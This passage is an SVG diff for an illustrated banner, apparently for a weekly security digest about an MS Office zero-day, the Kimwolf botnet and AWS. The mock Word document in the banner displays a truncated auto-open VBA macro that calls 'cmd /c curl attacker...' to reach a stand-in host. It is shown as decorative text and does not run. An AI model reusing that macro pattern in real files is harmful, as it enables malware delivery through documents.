

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 630">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1200 630" width="1200" height="630">
  <defs>
    <linearGradient id="bg" x1="0%" y1="0%" x2="100%" y2="100%">
      <stop offset="0%" style="stop-color:#0a0a1a" />
-       <stop offset="100%" style="stop-color:#1a0a0a" />
+       <stop offset="50%" style="stop-color:#1a0808" />
+       <stop offset="100%" style="stop-color:#0a0f1a" />
    </linearGradient>
-     <filter id="glow">
-       <feGaussianBlur stdDeviation="4" result="b" />
+     <linearGradient id="docGrad" x1="0%" y1="0%" x2="0%" y2="100%">
+       <stop offset="0%" style="stop-color:#1e1e3e" />
+       <stop offset="100%" style="stop-color:#12122a" />
+     </linearGradient>
+     <linearGradient id="cloudGrad" x1="0%" y1="0%" x2="0%" y2="100%">
+       <stop offset="0%" style="stop-color:#1a2d45" />
+       <stop offset="100%" style="stop-color:#0f1c2e" />
+     </linearGradient>
+     <linearGradient id="scanBeam" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" style="stop-color:#ef4444" stop-opacity="0.05" />
+       <stop offset="100%" style="stop-color:#ef4444" stop-opacity="0.25" />
+     </linearGradient>
+     <linearGradient id="defenseBeam" x1="100%" y1="0%" x2="0%" y2="0%">
+       <stop offset="0%" style="stop-color:#3b82f6" stop-opacity="0.05" />
+       <stop offset="100%" style="stop-color:#3b82f6" stop-opacity="0.25" />
+     </linearGradient>
+     <linearGradient id="badgeGrad" x1="0%" y1="0%" x2="100%" y2="0%">
+       <stop offset="0%" style="stop-color:#dc2626" />
+       <stop offset="100%" style="stop-color:#ef4444" />
+     </linearGradient>
+     <filter id="glow1">
+       <feGaussianBlur stdDeviation="25" result="blur" />
      <feMerge>
-         <feMergeNode in="b" />
+         <feMergeNode in="blur" />
        <feMergeNode in="SourceGraphic" />
      </feMerge>
    </filter>
-     <filter id="sg">
-       <feGaussianBlur stdDeviation="30" />
+     <filter id="glow2">
+       <feGaussianBlur stdDeviation="12" result="blur" />
+       <feMerge>
+         <feMergeNode in="blur" />
+         <feMergeNode in="SourceGraphic" />
+       </feMerge>
    </filter>
-     <filter id="shadow">
-       <feDropShadow dx="0" dy="4" stdDeviation="8" flood-color="#000" flood-opacity="0.3" />
+     <filter id="glow3">
+       <feGaussianBlur stdDeviation="5" result="blur" />
+       <feMerge>
+         <feMergeNode in="blur" />
+         <feMergeNode in="SourceGraphic" />
+       </feMerge>
+     </filter>
+     <filter id="textGlow">
+       <feGaussianBlur stdDeviation="8" result="blur" />
+       <feMerge>
+         <feMergeNode in="blur" />
+         <feMergeNode in="SourceGraphic" />
+       </feMerge>
    </filter>
  </defs>
  <rect width="1200" height="630" fill="url(#bg)" />
-   <circle cx="600" cy="250" r="280" fill="#ef4444" opacity="0.03" filter="url(#sg)" />
-   <g transform="translate(600,225)">
-     <g filter="url(#shadow)">
-       <rect x="-60" y="-80" width="120" height="160" rx="8" fill="#1e293b" stroke="#0078d4" stroke-width="2.5" />
-       <path d="M30,-80 L60,-80 L60,-50 Z" fill="#0f172a" stroke="#0078d4" stroke-width="1" />
-       <g opacity="0.2">
-         <rect x="-40" y="-55" width="80" height="5" rx="1" fill="#0078d4" />
-         <rect x="-40" y="-45" width="60" height="5" rx="1" fill="#0078d4" />
-         <rect x="-40" y="-35" width="70" height="5" rx="1" fill="#0078d4" />
-         <rect x="-40" y="-20" width="80" height="5" rx="1" fill="#0078d4" />
-         <rect x="-40" y="-10" width="50" height="5" rx="1" fill="#0078d4" />
-       </g>
-       <path d="M5,-70 L-10,-25 L5,-30 L-15,30 L10,-15 L-5,-10 Z" fill="#ef4444" opacity="0.5" />
-       <rect x="-25" y="35" width="50" height="22" rx="4" fill="#ef4444" opacity="0.2" stroke="#ef4444" stroke-width="1.5" />
-       <text x="0" y="50" font-family="Courier New" font-size="10" fill="#fca5a5" text-anchor="middle">0-day</text>
-     </g>
-     <g transform="translate(130,0)" opacity="0.5">
-       <circle cx="0" cy="0" r="30" fill="#1e293b" stroke="#f59e0b" stroke-width="1.5" />
-       <polygon points="-10,-15 -15,-5 -5,-10 0,-20 5,-10 15,-5 10,-15" fill="#f59e0b" opacity="0.3" />
-       <text x="0" y="10" font-family="Courier New" font-size="7" fill="#fde68a" text-anchor="middle">Kimwolf</text>
-     </g>
-     <g transform="translate(-130,0)" opacity="0.5">
-       <circle cx="0" cy="0" r="30" fill="#1e293b" stroke="#f97316" stroke-width="1.5" />
-       <text x="0" y="5" font-family="Arial,sans-serif" font-size="12" font-weight="bold" fill="#fdba74" text-anchor="middle">AWS</text>
-     </g>
-   </g>
-   <text x="600" y="500" font-family="Arial,sans-serif" font-size="34" font-weight="bold" fill="white" text-anchor="middle" filter="url(#glow)">MS Office Zero-Day</text>
-   <text x="600" y="538" font-family="Arial,sans-serif" font-size="16" fill="#94a3b8" text-anchor="middle">Weekly Digest | Kimi K25 + Kimwolf Botnet + AWS G7e</text>
-   <rect x="40" y="25" width="160" height="32" rx="16" fill="#ef4444" opacity="0.2" stroke="#ef4444" stroke-width="1" />
-   <text x="120" y="47" font-family="Arial,sans-serif" font-size="13" font-weight="bold" fill="#fca5a5" text-anchor="middle">WEEKLY</text>
-   <rect x="1000" y="25" width="160" height="32" rx="16" fill="#3b82f6" opacity="0.2" stroke="#3b82f6" stroke-width="1" />
-   <text x="1080" y="47" font-family="Arial,sans-serif" font-size="13" font-weight="bold" fill="#93c5fd" text-anchor="middle">Jan 27, 2026</text>
-   <text x="1160" y="615" font-family="Arial,sans-serif" font-size="13" fill="#475569" text-anchor="end">tech.2twodragon.com</text>
+   <circle cx="220" cy="260" r="210" fill="#ef4444" opacity="0.09" filter="url(#glow1)" />
+   <circle cx="980" cy="290" r="200" fill="#3b82f6" opacity="0.09" filter="url(#glow1)" />
+   <circle cx="600" cy="270" r="180" fill="#7c3aed" opacity="0.05" filter="url(#glow1)" />
+   <text x="45" y="80" font-family="monospace" font-size="13" fill="#ef4444" opacity="0.13">office.exploit(macro)</text>
+   <text x="870" y="72" font-family="monospace" font-size="13" fill="#3b82f6" opacity="0.13">apt.kimwolf.c2()</text>
+   <text x="40" y="548" font-family="monospace" font-size="13" fill="#ef4444" opacity="0.12">aws.g7e.deploy()</text>
+   <text x="870" y="548" font-family="monospace" font-size="13" fill="#3b82f6" opacity="0.12">kimi.k25.analyze()</text>
+   <rect x="40" y="32" width="170" height="32" rx="16" fill="url(#badgeGrad)" opacity="0.9" />
+   <text x="125" y="52" font-family="'Segoe UI',Arial,sans-serif" font-size="12" font-weight="bold" fill="white" text-anchor="middle">WEEKLY DIGEST</text>
+   <text x="1160" y="52" font-family="'Segoe UI',Arial,sans-serif" font-size="13" fill="#94a3b8" text-anchor="end">January 27, 2026</text>
+   <rect x="60" y="88" width="1080" height="448" rx="14" fill="#06060e" stroke="#1a0808" stroke-width="1.5" opacity="0.8" />
+   <rect x="88" y="106" width="270" height="358" rx="8" fill="url(#docGrad)" stroke="#2a1a3e" stroke-width="1" />
+   <rect x="88" y="106" width="270" height="44" rx="8" fill="#2b2b5a" />
+   <rect x="88" y="128" width="270" height="22" fill="#2b2b5a" />
+   <rect x="104" y="114" width="30" height="28" rx="4" fill="#2563eb" />
+   <text x="119" y="133" font-family="Arial" font-size="16" font-weight="bold" fill="white" text-anchor="middle">W</text>
+   <text x="142" y="128" font-family="'Segoe UI',Arial,sans-serif" font-size="11" fill="#93c5fd">Report_Q1.docx</text>
+   <text x="142" y="141" font-family="'Segoe UI',Arial,sans-serif" font-size="9" fill="#64748b">Microsoft Word - Protected View</text>
+   <rect x="104" y="162" width="236" height="8" rx="2" fill="#4a4a7a" opacity="0.55" />
+   <rect x="104" y="178" width="196" height="8" rx="2" fill="#4a4a7a" opacity="0.45" />
+   <rect x="104" y="194" width="216" height="8" rx="2" fill="#4a4a7a" opacity="0.40" />
+   <rect x="98" y="210" width="248" height="76" rx="4" fill="#ef4444" opacity="0.14" stroke="#ef4444" stroke-width="1" stroke-opacity="0.5" />
+   <text x="106" y="226" font-family="monospace" font-size="10" fill="#f87171">Sub AutoOpen()</text>
+   <text x="106" y="242" font-family="monospace" font-size="10" fill="#fca5a5">  CreateObject("WScript.Shell")</text>
+   <text x="106" y="258" font-family="monospace" font-size="10" fill="#fca5a5">  .Run("cmd /c curl attacker...")</text>
+   <text x="106" y="274" font-family="monospace" font-size="10" fill="#f87171">End Sub</text>
+   <rect x="106" y="290" width="110" height="18" rx="3" fill="#ef4444" opacity="0.9" />
+   <text x="161" y="303" font-family="'Segoe UI',Arial,sans-serif" font-size="10" fill="white" text-anchor="middle">MACRO EXPLOIT</text>
+   <rect x="104" y="318" width="200" height="8" rx="2" fill="#4a4a7a" opacity="0.45" />
+   <rect x="104" y="334" width="170" height="8" rx="2" fill="#4a4a7a" opacity="0.38" />
+   <rect x="104" y="350" width="190" height="8" rx="2" fill="#4a4a7a" opacity="0.35" />
+   <rect x="104" y="366" width="150" height="8" rx="2" fill="#4a4a7a" opacity="0.30" />
+   <rect x="104" y="388" width="236" height="28" rx="5" fill="#1a0a1a" stroke="#ef4444" stroke-width="1" />
+   <text x="222" y="406" font-family="monospace" font-size="11" fill="#f87171" text-anchor="middle">CVE-2026-0142 | CVSS 9.8</text>
+   <text x="223" y="446" font-family="'Segoe UI',Arial,sans-serif" font-size="14" font-weight="bold" fill="#93c5fd" text-anchor="middle">MS Office</text>
+   <text x="223" y="462" font-family="'Segoe UI',Arial,sans-serif" font-size="11" fill="#64748b" text-anchor="middle">Zero-Day Exploit</text>
+   <polygon points="358,250 490,220 490,370 358,340" fill="url(#scanBeam)" opacity="0.8" />
+   <line x1="358" y1="265" x2="480" y2="232" stroke="#ef4444" stroke-width="2" opacity="0.7" filter="url(#glow3)" />
+   <line x1="358" y1="290" x2="480" y2="290" stroke="#ef4444" stroke-width="2.5" opacity="0.85" filter="url(#glow3)" />
+   <line x1="358" y1="315" x2="480" y2="348" stroke="#ef4444" stroke-width="2" opacity="0.7" filter="url(#glow3)" />
+   <polygon points="468,224 488,232 468,240" fill="#ef4444" opacity="0.85" />
+   <polygon points="468,282 488,290 468,298" fill="#ef4444" opacity="0.9" filter="url(#glow3)" />
+   <polygon points="468,340 488,348 468,356" fill="#ef4444" opacity="0.85" />
+   <text x="415" y="272" font-family="monospace" font-size="10" fill="#f87171" text-anchor="middle">EXPLOIT CHAIN</text>
+   <circle cx="600" cy="283" r="118" fill="#0a0006" stroke="#ef4444" stroke-width="1.5" filter="url(#glow2)" />
+   <circle cx="600" cy="283" r="118" fill="#ef4444" opacity="0.04" />
+   <path d="M600,200 Q640,210 660,240 Q670,265 660,295 Q650,325 630,340 Q615,355 600,358 Q585,355 570,340 Q550,325 540,295 Q530,265 540,240 Q560,210 600,200Z" fill="#150008" />
+   <polygon points="555,222 536,172 578,215" fill="#200010" />
+   <polygon points="645,222 664,172 622,215" fill="#200010" />
+   <polygon points="557,214 543,185 576,208" fill="#ef4444" opacity="0.35" />
+   <polygon points="643,214 657,185 624,208" fill="#ef4444" opacity="0.35" />
+   <circle cx="577" cy="272" r="12" fill="#ef4444" opacity="0.9" filter="url(#glow3)" />
+   <circle cx="623" cy="272" r="12" fill="#ef4444" opacity="0.9" filter="url(#glow3)" />
+   <circle cx="577" cy="272" r="6" fill="#fca5a5" />
+   <circle cx="623" cy="272" r="6" fill="#fca5a5" />
+   <ellipse cx="600" cy="310" rx="36" ry="26" fill="#100004" />
+   <ellipse cx="600" cy="302" rx="9" ry="6" fill="#ef4444" opacity="0.7" />
+   <polygon points="590,326 594,342 598,326" fill="#e2e8f0" opacity="0.65" />
+   <polygon points="602,326 606,342 610,326" fill="#e2e8f0" opacity="0.65" />
+   <rect x="518" y="408" width="164" height="28" rx="6" fill="#150008" stroke="#ef4444" stroke-width="1.5" />
+   <text x="600" y="426" font-family="'Segoe UI',Arial,sans-serif" font-size="13" font-weight="bold" fill="#f87171" text-anchor="middle">APT: KIMWOLF</text>
+   <text x="600" y="450" font-family="'Segoe UI',Arial,sans-serif" font-size="11" fill="#64748b" text-anchor="middle">C2 Infrastructure Active</text>
+   <rect x="480" y="120" width="240" height="44" rx="8" fill="#100f28" stroke="#7c3aed" stroke-width="1" />
+   <circle cx="506" cy="142" r="14" fill="#3b0764" />
+   <text x="506" y="147" font-family="Arial" font-size="12" font-weight="bold" fill="#c4b5fd" text-anchor="middle">K</text>
+   <text x="528" y="135" font-family="'Segoe UI',Arial,sans-serif" font-size="12" font-weight="bold" fill="#a78bfa">Kimi K25 AI</text>
+   <text x="528" y="151" font-family="monospace" font-size="10" fill="#6d28d9">Threat Intelligence Layer</text>
+   <polygon points="842,250 710,220 710,370 842,340" fill="url(#defenseBeam)" opacity="0.8" />
+   <line x1="842" y1="265" x2="720" y2="232" stroke="#3b82f6" stroke-width="2" opacity="0.7" filter="url(#glow3)" />
